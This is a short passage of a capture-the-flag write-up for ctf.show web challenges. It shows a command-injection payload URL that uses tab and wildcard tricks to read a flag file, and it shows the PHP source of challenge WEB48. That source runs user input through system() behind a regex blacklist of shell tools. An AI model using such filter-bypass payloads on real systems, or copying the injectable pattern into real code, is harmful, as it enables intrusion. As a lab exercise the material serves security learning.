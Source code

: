 ```php
http://26a6634b-a22b-4009-8819-254d74b86058.challenge.ctf.show/?c=nl%09fla?.php||
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">(20)WEB48</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
